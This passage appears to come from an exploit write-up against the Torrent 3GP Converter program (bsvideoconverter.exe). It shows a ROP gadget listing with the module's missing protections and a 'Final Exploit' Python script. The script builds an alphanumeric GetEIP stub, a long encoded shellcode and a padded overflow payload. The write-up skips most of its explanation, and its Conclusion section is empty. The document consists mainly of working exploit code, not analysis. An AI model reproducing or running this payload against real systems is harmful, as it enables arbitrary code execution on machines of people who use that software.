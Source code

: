 >0x00445835 : pop esi # pop ecx # ret  | startnull,asciiprint,ascii,alphanum,uppernum {PAGE_EXECUTE_READWRITE} [bsvideoconverter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v4.2.8.1 (C:\Program Files (x86)\Torrent 3GP Converter\bsvideoconverter.exe)

Some ESP adjustments are then needed to end up executing the shellcode on the stack but 
I won't go into the details.

## Conclusion
---


## Final Exploit 
---
```python
# AlphaNum GetEIP
shellcode = "\x4c"*4 # dec esp * 4
shellcode += "\x59" # pop ecx
shellcode += "\x83\xC1\x08" # add ecx, 0x8
shellcode += b"\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
shellcode += b"\x51\x5a\x56\x54\x58\x33\x30\x56\x58\x34\x41"
shellcode += b"\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41"
shellcode += b"\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42"
shellcode += b"\x32\x42\x42\x30\x42\x42\x58\x50\x38\x41\x43"
shellcode += b"\x4a\x4a\x49\x4b\x4c\x4b\x58\x4c\x42\x33\x30"
shellcode += b"\x33\x30\x33\x30\x55\x30\x4b\x39\x5a\x45\x46"
shellcode += b"\x51\x49\x50\x42\x44\x4c\x4b\x36\x30\x50\x30"
shellcode += b"\x4c\x4b\x50\x52\x44\x4c\x4c\x4b\x51\x42\x35"
shellcode += b"\x44\x4c\x4b\x32\x52\x47\x58\x44\x4f\x48\x37"
shellcode += b"\x50\x4a\x37\x56\x36\x51\x4b\x4f\x4e\x4c\x47"
shellcode += b"\x4c\x45\x31\x53\x4c\x34\x42\x46\x4c\x57\x50"
shellcode += b"\x49\x51\x38\x4f\x44\x4d\x53\x31\x48\x47\x4b"
shellcode += b"\x52\x5a\x52\x31\x42\x31\x47\x4c\x4b\x56\x32"
shellcode += b"\x52\x30\x4c\x4b\x30\x4a\x37\x4c\x4c\x4b\x30"
shellcode += b"\x4c\x42\x31\x33\x48\x4a\x43\x57\x38\x45\x51"
shellcode += b"\x38\x51\x30\x51\x4c\x4b\x51\x49\x57\x50\x35"
shellcode += b"\x51\x48\x53\x4c\x4b\x47\x39\x42\x38\x5a\x43"
shellcode += b"\x37\x4a\x47\x39\x4c\x4b\x36\x54\x4c\x4b\x55"
shellcode += b"\x51\x48\x56\x50\x31\x4b\x4f\x4e\x4c\x4f\x31"
shellcode += b"\x38\x4f\x54\x4d\x45\x51\x49\x57\x36\x58\x4d"
shellcode += b"\x30\x34\x35\x4c\x36\x54\x43\x43\x4d\x4a\x58"
shellcode += b"\x37\x4b\x33\x4d\x37\x54\x53\x45\x5a\x44\x56"
shellcode += b"\x38\x4c\x4b\x31\x48\x37\x54\x53\x31\x59\x43"
shellcode += b"\x32\x46\x4c\x4b\x54\x4c\x50\x4b\x4c\x4b\x30"
shellcode += b"\x58\x35\x4c\x43\x31\x39\x43\x4c\x4b\x53\x34"
shellcode += b"\x4c\x4b\x43\x31\x58\x50\x4b\x39\x30\x44\x57"
shellcode += b"\x54\x51\x34\x31\x4b\x51\x4b\x35\x31\x51\x49"
shellcode += b"\x31\x4a\x56\x31\x4b\x4f\x4b\x50\x51\x4f\x51"
shellcode += b"\x4f\x50\x5a\x4c\x4b\x44\x52\x5a\x4b\x4c\x4d"
shellcode += b"\x31\x4d\x53\x5a\x55\x51\x4c\x4d\x4d\x55\x58"
shellcode += b"\x32\x55\x50\x35\x50\x43\x30\x56\x30\x43\x58"
shellcode += b"\x36\x51\x4c\x4b\x42\x4f\x4d\x57\x4b\x4f\x48"
shellcode += b"\x55\x4f\x4b\x4c\x30\x4e\x55\x39\x32\x46\x36"
shellcode += b"\x53\x58\x49\x36\x4d\x45\x4f\x4d\x4d\x4d\x4b"
shellcode += b"\x4f\x49\x45\x47\x4c\x43\x36\x33\x4c\x54\x4a"
shellcode += b"\x4b\x30\x4b\x4b\x4d\x30\x53\x45\x43\x35\x4f"
shellcode += b"\x4b\x57\x37\x54\x53\x54\x32\x32\x4f\x53\x5a"
shellcode += b"\x35\x50\x36\x33\x4b\x4f\x4e\x35\x42\x43\x33"
shellcode += b"\x51\x32\x4c\x53\x53\x35\x50\x41\x41"

payload = "E"*20*4
payload += shellcode
payload += "A"*(4- (len(payload) % 4))
payload += "\x41\x48\xD2\x19"*((4228 - len(payload))/4)
```